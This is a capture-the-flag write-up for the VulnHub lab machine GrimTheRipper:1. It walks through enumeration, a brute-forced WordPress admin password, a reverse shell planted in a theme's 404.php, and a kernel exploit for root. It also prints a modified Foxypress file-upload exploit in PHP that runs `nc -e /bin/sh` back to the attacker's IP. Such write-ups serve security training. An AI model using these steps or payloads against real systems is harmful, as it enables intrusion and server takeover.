<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/grimtheripper-1,350/">GrimTheRipper:1</a>
  <br>
</h1>

<h4 align="center"> Author: Manish Chandra</h4>

## Nmap



Looks like a Simple machine with only two ports open. Let's enum HTTP

***

## HTTP


Visiting the website we get nothing but the image of kevin hart.

I ran gobuster on this to find any hidden dir.



We can see `robots.txt` there. In that I found `/index2.html`.



If we visit `http://192.168.184.134/index2.html` we can see again a random image


But in the source of that page I found a base64 encoded string.



`--THpFd01UQXhNREU9IHRyeSBoYXJk--`

I decoded it to find a new URL



`/1010101`

If we visit that URL we can see a new directory named `wordpress`.



Since we've found a `wordpress` directory maybe it's time to run `wpscan`



__NOTE__: All the links on this wordpress will be leading to localhost i.e 127.0.0.1. To fix this run the following command on your system(not the target VM)

```
➜ socat TCP-LISTEN:80,fork TCP:Target-IP:80
```

So for me the machine IP was `192.168.184.134` in that case the command would be

```
➜ socat TCP-LISTEN:80,fork TCP:192.168.184.134:80
```

Now if we open the website we'll see a properly formatted wordpress with all the links working fine.

***
At this point we ([@4ndr34z](https://twitter.com/@4ndr34z), [@DCUA7](https://twitter.com/DCUA7), [@theart42](https://twitter.com/theart42), [@Robin](https://twitter.com/D4mianWayne)) were stucked for hours. We checked everything we could like shellshock vulnerability because the Apache server was old. Then we did SSH username enumeration because OpenSSH version was old. But we found nothing.

After many hours [@4ndr34z](https://twitter.com/4ndr34z) found the `admin` password for wordpress via bruteforce. It literally took more then 6 or 7 hours.

***



__image by @4ndr34z__

`admin:Password@123`

With this password I was able to login into Wordpress.



I edited the `Twenty Twelve` 404.php file with my reverse shell code.



Now If we visit `http://192.168.184.134/1010101/wordpress/wp-content/themes/twentytwelve/404.php` while our listener is listening on port 4444 then we'll get the reverse shell.



***

## Privilege escalation

I ran enumeration script and it found quite a few things.


and



I searched this kernel with `searchsploit` and found `overlayfs` exploit.



I downloaded that exploit and compiled it on the machine. After executing it I got the root shell.



There was no root flag but still I was root.




***

## Intended way of getting shell

Okay so this is still kinda guessy but we think that `foxypress` plugin exploitation is the real way to get the reverse shell.

For exploiting `foxypress` we can use [WordPress Plugin Foxypress 0.4.1.1 < 0.4.2.1 - Arbitrary File Upload](https://www.exploit-db.com/exploits/18991) exploit.

Edit the exploit in the following way:

```php
<?php

$uploadfile="lo.php";
$ch =
curl_init("http://http://192.168.184.134/1010101/wordpress/wp-content/plugins/foxypress/uploadify/uploadify.php");
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS,
         array('Filedata'=>"@$uploadfile"));
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$postResult = curl_exec($ch);
curl_close($ch);
print "$postResult";

?>

<?php
system("nc -e /bin/sh 192.168.184.1 4444");
?>
```

And then run this exploit `php exploit.php` while your listener is running.

But the problem with this is we only know about `foxypress` because we logged in into wordpress. wpscan didn't pointed out presence of `foxypress`. So the question still remains that how do we know we are supposed to exploit that.

***

If this machine was supposed to be done the way we did it then it's really bad machine. I mean 6-7 hours of pure bruteforce is insane, not in a good way.

But if author or someone else ends up reading this and knows the really way to solve this then please let me know.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
